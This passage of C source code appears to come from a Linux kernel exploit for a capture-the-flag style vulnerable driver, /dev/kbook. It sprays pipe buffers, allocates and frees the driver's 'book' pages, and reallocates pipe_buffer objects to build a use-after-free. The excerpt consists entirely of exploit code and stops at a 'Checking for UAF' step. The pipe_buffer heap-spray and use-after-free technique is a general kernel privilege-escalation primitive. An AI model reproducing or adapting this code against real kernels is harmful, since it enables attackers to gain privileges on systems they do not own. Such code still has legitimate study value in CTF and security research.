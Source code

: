 ```c
    for (int i = 0; i < PIPE_SPRAY_NR; i++) {
        write(pipe_fd[i][1], &i, sizeof(i));
        write(pipe_fd[i][1], &i, sizeof(i));
        write(pipe_fd[i][1], &i, sizeof(i));
    }

    for (int i = 0; i < PIPE_SPRAY_NR; i++) {
        if (fcntl(pipe_fd[i][0], F_SETPIPE_SZ, 0x1000 * 4) < 0) {
            perror("failed to reset pipe_size");
            err_exit("FAILED to realloc pipe_buffer!");
        }
    }
}

void init_bookshelf(void)
{
    puts("[*] Allocating and writing books...");

    for (int i = 0; i < MAX_BOOK_NR; i++) {
        bookshelf[i] = open("/dev/kbook", O_RDWR);
        if (bookshelf[i] < 0) {
            perror("failed to open /dev/kbook");
            err_exit("FAILED at opening dev node!");
        }

        if (choose_book(bookshelf[i], i) < 0) {
            err_exit("FAILED at binding the book with fd!");
        }

        for (int j = 0; j < MAX_PAGE_BOOK_NR; j++) {
            if (set_page(bookshelf[i], j) < 0) {
                err_exit("FAILED at setting the page for book!");
            }

            if (write(bookshelf[i], "arttnba3", 8) < 0) {
                err_exit("FAILED at writing the book!");
            }
        }
    }

    puts("[*] Releasing book pages...");
    for (int i = 0; i < MAX_BOOK_NR; i++) {
        for (int j = 0; j < MAX_PAGE_BOOK_NR; j++) {
            if (delete_page(bookshelf[i], j) < 0) {
                err_exit("FAILED at releasing the page!");
            }
        }
    }
}

void construct_uaf_on_pipe_buffer(void)
{
    size_t buf[0x1000];
    puts("[*] Realloc pipe_buffer...");

    for (int i = 0; i < PIPE_SPRAY_NR; i++) {
        if (fcntl(pipe_fd[i][0], F_SETPIPE_SZ, 0x1000 * 32) < 0) {
            perror("failed to reset pipe_size");
            err_exit("FAILED to realloc pipe_buffer!");
        }
    }

    puts("[*] Checking for UAF...");
```